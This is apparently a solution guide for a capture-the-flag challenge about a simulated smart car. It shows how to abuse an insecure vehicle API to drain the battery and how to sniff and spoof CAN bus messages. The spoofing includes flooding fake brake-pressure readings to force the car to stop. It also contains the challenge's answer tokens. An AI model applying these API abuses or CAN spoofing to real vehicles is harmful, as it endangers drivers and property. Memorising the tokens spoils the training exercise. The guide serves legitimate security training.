


# Car-tastrophe

*Solution Guide*

## Overview

In Car-tastrophe, the team uses an insecure smart car API to remotely enable a car's AC, draining the battery, and use the exposed CAN Bus to extract information and send spoofed messages. The vulnerability and API are based on a [real vulnerability](https://www.troyhunt.com/controlling-vehicle-features-of-nissan/) in the [Nissan Leaf's API](https://github.com/jdhorne/pycarwings2) (hence the car is a "Twig" model car). 

The team then uses a remote connection to the CAN bus using python-can and socketcand to connect to the car's CAN bus and complete several tasks. The first CAN bus task is to extract the flag being emitted by device ID 0x12345678. The second task is to extract a flag being emitted byte-by-byte from a randomly-chosen ID. The third task is to signal a waiting agent by turning on the climate control of the vehicle's audio/visual (A/V) system. The final CAN bus task is to stop the car by messing with the car's brake pressures. All of the CAN bus modules are based on Nissan CAN bus messages extracted by the [open source community](https://github.com/dalathegreat/leaf_can_bus_messages), with slight modifications to reduce some of the necessary bit operations or add more guidance. 

One thing to note is that the documentation records hexadecimal values very haphazardly; most of the time, values are lacking a leading `0x`. This can cause confusion when attempting to craft your own CAN bus messages. All two byte values should be considered hexadecimal by default.   

Car-tastrophe uses randomly-generated 16-digit hexadecimal tokens for all questions; there are no variants. The [solver.py](./solver.py) script contains code that will solve all five parts.

## Question 1

*Token 1: The target has stopped to rest, but did not plug in their car. Exploit the Twig API to drain the car's battery while they sleep.*

*Enter the token awarded after you successfully drain the car's battery.*

The competitor is informed that there exists a vulnerable smart car API, there are third-party services available on the WAN, and that `pfsense.merch.codes` can be used to perform packet captures.

After capturing packets for a minute or so (`challenge.us` makes a request to the API every 5 seconds), and opening the packet capture in Wireshark, filter for HTTP to find all of the API requests. This reveals the following host and endpoints (note the login endpoint is omitted from the real API to avoid a red-herring situation):

- `http://twig-api.merch.codes/twig/gdc/BatteryStatusRecordsRequest?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`
- `http://twig-api.merch.codes/twig/gdc/MyCarFinderRequest?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`
- `http://twig-api.merch.codes/twig/gdc/RemoteACRecordsRequest?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`
- `http://twig-api.merch.codes/twig/gdc/ACRemoteRequest?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`
- `http://twig-api.merch.codes/twig/gdc/ACRemoteOffRequest?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`
- `http://twig-api.merch.codes/twig/gdc/PriceSimulatorDetailInfoRequests?DCIM=614427018836&VIN=R0MHBBXF3P5012345&RegionCode=US`

The DCM and VIN are for a test car, but we can use this to understand how the API works. The endpoints `MyCarFinderRequest` and `PriceSimulatorDetailInfoRequests` are available but are ommitted as they are not useful to us.

The first useful endpoint will be `BatteryStatusRecordsRequest`. The output for the test car is:

```json
{
    "status": 200,
    "message": "success",
    "BatteryStatusRecords": {
        "OperationResult": "START",
        "OperationDateAndTime": "Nov 18,2024 08:32",
        "BatteryStatus": {
            "BatteryChargingStatus": "CHARGED",
            "BatteryCapacity": "12",
            "BatteryRemainingAmount": "12",
            "BatteryRemainingAmountWH": "",
            "BatteryRemainingAmountkWH": ""
        },
        "PluginState": "CONNECTED",
        "TimeRequiredToFull": {
            "HoursRequiredToFull": "0",
            "MinutesRequiredToFull": "0"
        }
    }
}
```

The `RemoteACRecordsRequest`, `ACRemoteRequest` and `ACRemoteOffRequest` are used to interact with the AC. The `ACRemoteRequest` and `ACRemoteOffRequest` always respond with a simple success message, while `RemoteACRecordsRequest` outputs when the AC is **ON**. When **OFF**, `RemoteACOperation` contains `STOP`. 

```json
{
    "status":200,
    "message":"success",
    "RemoteACRecords":{
        "OperationResult": "START",
        "OperationDateAndTime": "Nov 18, 2024 06:12 PM",
        "RemoteACOperation": "START",
        "ACStartStopDateAndTime":  "Nov 18, 2024 06:12 PM",
        "CruisingRangeAcOn": "107712.0",
        "CruisingRangeAcOff":"109344.0",
        "ACStartStopURL":"",
        "PluginState":"CONNECTED",
    },
    "OperationDateAndTime": "Nov 18, 2024 06:12 PM"
}
```

Our next task is to figure out how to exploit the API so we can use it on the target. The API does not offer many GET parameters to tamper with. Using a browser, curl, burpsuite, or any other tool, the competitor should begin by fuzzing the GET parameters. The competitor should eventually discover that the DCIM value is required, but can be blank. If blank, the DCIM value is completely ignored.

Since the target's VIN is given to us in the challenge description, we can now make requests to the API as the target:

```bash
curl "http://twig-api.merch.codes/twig/gdc/ACRemoteRequest?DCIM=&VIN=R0MHBBXF3P5069X37&RegionCode=US"
```

This enables the target's AC, which we can confirm with:

```json
//curl "http://twig-api.merch.codes/twig/gdc/ACRemoteRequest?DCIM=&VIN=R0MHBBXF3P5069X37&RegionCode=US"
{
    "status":200,
    "message":"success",
    "RemoteACRecords":{
        "OperationResult": "START_BATTERY",
        "OperationDateAndTime": "Nov 18, 2024 06:15 PM",
        "RemoteACOperation": "START",
        "ACStartStopDateAndTime":  "Nov 18, 2024 06:15 PM",
        "CruisingRangeAcOn": "103498.1",
        "CruisingRangeAcOff":"101866.1",
        "ACStartStopURL":"",
        "PluginState":"NOT_CONNECTED",
    },
    "OperationDateAndTime": "Nov 18, 2024 06:15 PM"
}
```

With the AC on, visit `challenge.us` and run the grading script to get the first token.



The token in this case is `5ba09345ba53f027`. 

## Question 2

*Token 2: Our agent has intercepted the requested mechanic and installed a CAN bus device to grant remote access at `123.45.67.2`. Extract the encryption key being transmitted by device `0x12345678`.*

*What is the value of the token being transmitted by the can device with ID 0x12345678?*

This challenge is fairly straight-forward as it is just testing the user's ability to connect to the CAN bus.

The intended way to solve this is with a bit of python-can. The challenge description specifies we should connect to `123.45.67.2:29356` using socketcand.

Create a script `test.py` with code below:

```python

import can
import logging

logging.basicConfig(level=logging.ERROR)  # Stop message about waiting for data - not necessary, but much easier to read

can_filters = [
    {"can_id": 0x12345678, "can_mask": 0x7FF}
]

with can.interface.Bus(interface='socketcand', host="123.45.67.2", port=29536, channel="vcan0", can_filters=can_filters) as bus:
    notifier = can.Notifier(bus, [can.Printer()])

    while True:
        pass

```

Run the script `python test.py` - see results below:


Alternatively, the team could download the packet capture from `123.45.67.2:5000` and view it in Wireshark using the filter `can.id == 0x12345678`.


The token in this case is `27f0c6e8aaa56188`

## Question 3

*Token 3: The encryption key is incomplete. Compare the transmitting CAN devices with the documentation to find the other half of the key.*

*What is the value of the token being transmitted by the secret can device?*

This is very similar to the previous task, but now the ID is unknown. There are a lot of IDs, so the team will need to narrow down the search space by referring to the provided documentation which is available as a [spreadsheet](../challenge/Twig_canmsgs.xlsx) or a [PDF](../challenge/Twig_canmsgs.pdf) on `challenge.us`.

The following image contains an example of two possible IDs that may be of interest to the team, one correct, one wrong.


The correct ID is `0x342`, which lacks an entry/coloring in the time between messages column. As described in the notes column, this means the message is seldomly broadcast or is for a different year of this vehicle model. In either case, this makes it a good candidate for a malicious user seeking to secretly broadcast a message without interfering with the normal operation of the vehicle. This is also hinted at in the provided [readme](../challenge/artifacts/readme.txt) for the Twig Can Message documents.

The misleading ID is `0x351`. This ID has a time between messages, meaning it is regularly seen on the CAN bus. It would not make a good candidate for a secret message as it is still broadcasting regularly and might contain data that would be confused with the secret message. Since this is obviously not a real car, however, this ID instead just broadcasts all 0s. This should allow the team to fairly quickly eliminate it as a potential source.

Going through the documentation, the potential IDs are: `0x342, 0x509, 0x55a, 0x5f8, 0x5f9, 0x604, 0x682`. One will be chosen at random when the CAN server is started.

The ID transmits the message and then waits 30 seconds to broadcast again. The ID transmits one byte every second. The full time for a message to appear then is 38 seconds.

This can be extracted with python-can or Wireshark using the same code/technique as before. Note a team solving this naturally would most likely NOT make a list like this, and would instead inspect them individually.

```python

import can
import logging

logging.basicConfig(level=logging.ERROR)  # Stop message about waiting for data - not necessary, but much easier to read

can_filters = [
    {"can_id": 0x342, "can_mask": 0x7FF},
    {"can_id": 0x509, "can_mask": 0x7FF},
    {"can_id": 0x55a, "can_mask": 0x7FF},
    {"can_id": 0x5f8, "can_mask": 0x7FF},
    {"can_id": 0x5f9, "can_mask": 0x7FF},
    {"can_id": 0x604, "can_mask": 0x7FF},
    {"can_id": 0x682, "can_mask": 0x7FF},
]

with can.interface.Bus(interface='socketcand', host="123.45.67.2", port=29536, channel="vcan0", can_filters=can_filters) as bus:
    notifier = can.Notifier(bus, [can.Printer()])

    while True:
        pass

```

The results of the above code are shown below. In this case, the secret device is ID 0x604. We can determine where the message starts with the timestamp. There is about a 30 second gap (...094 vs ...125) between the messages, so the token starts with timestamp ...125 with value 38.


Alternatively, the team could download the packet capture and view it in Wireshark using the filter `can.id ==  0x342 || can.id == 0x509 || can.id == 0x55a || can.id == 0x5f8 || can.id == 0x5f9 || can.id == 0x604 || can.id == 0x682`. In this case, the secret device is ID 0x604. A single Wireshark image can't show the full data, but using the timestamp and data, we know the selected packet is the first byte and the secret message is in ID 0x604.


The token in this case is `389117c76b2b0d2d`.

## Question 4

*Token 4: Signal to our agent that the key has been extracted by using the CAN bus to display the signal on the A/V unit. The agent expects the A/V unit to turn on the climate control display and show `255` as the user-requested fan speed.*

*Enter the token awarded after you successfully signal the agent.*

The team will need to consult the documentation to figure out how to accomplish this. Searching for climate will bring up the following entries (page 8 of the PDF).


First, lets look at ID `0x54b` as this one mentions fan speed.  The first byte is the display turn on alert and needs be 0x01 to alert the A/V system to display the climate control pane.  The next two bytes need to be 0x78 and 0x88 to signal that climate is on. The third byte isn't known, but it is mostly 0x09 while CC is on; our server ignores it so you can set it to any value. The fourth byte is the user requested fan speed, which is the value we want to set 0xff. Finally, the fan speed change alert is in the last byte, so this also needs to be 0x01 to update the display. Unfortunately, the last line says this message is ignored if the climate control is off.

ID `0x54a` is next. This one only contains the climate control temperature set point and the ambient temperature. We don't care about either of those values, so let's move on.

Finally, we have ID `0x510`, which is responsible for informing the A/V that the climate control is on. Similar to the first ID we looked at, the first byte needs to be 0x01 to signal that there is a change in the climate control power. The fourth byte contains two values: the most significant bit is a flag, where 1 means the climate control is on. Bits 1-6 represent the climate control power. According to the notes, the power must be non-zero for the message to be processed. The last byte is the ambient temperature, which we can ignore.

So we need to send two messages constructed to the demands above. This can be accomplished with python-can.

```python
import can

with can.interface.Bus(interface='socketcand', host="123.45.67.2", port=29536, channel="vcan0") as bus:
    message = can.Message(arbitration_id=0x510, data=[1,0,0,0b10111110,0,0,0,0])
    bus.send(message)

    message = can.Message(arbitration_id=0x54b, data=[1,0x78,0x88,0,0xff,0,0,1])
    bus.send(message)
```

After sending those messages, , visit `challenge.us` and run the grading script to get the token.



The token in this case is 515bed193df124ec. 

## Question 5

*Token 5: The target has caught on to us and escaped before our agent could extract the device! Stop the car using the CAN bus by tricking the Vehicle Control Module (VCM) into believing something is wrong with the brake pressure.*

*Enter the token awarded after you successfully stop the car.*

Again, we start with the documentation. We can find the brake pressure is presented in ID `0x1ca`.


The brake pressure is contained in bytes 0-3. We can see this packet is transmitting values between `0x40` and `0xc0`. To mess with the brake pressure, we will just spoof many fake messages with pressure readings of 0. This can be done using python-can. The brake error will trigger after 100 bad readings in a short period of time; a reading is considered bad if any of the four brakes are not between `0x40` and `0xc0`.

```python
import can

with can.interface.Bus(interface='socketcand', host="123.45.67.2", port=29536, channel="vcan0") as bus:
    try:
        sent = 0
        while sent < 200:  # Need 100, but good brake messages reduce count, so do 200. Can switch to while True if 200 isn't enough
            message = can.Message(arbitration_id=0x1ca, data=[0,0,0,0,0,0,0,0])
            bus.send(message)
            sent += 1
    except KeyboardInterrupt:
        print('Stopping!')
```

After sending those messages, , visit `challenge.us` and run the grading script to get the token.


The token in this case is `6b9454e94395a837`. 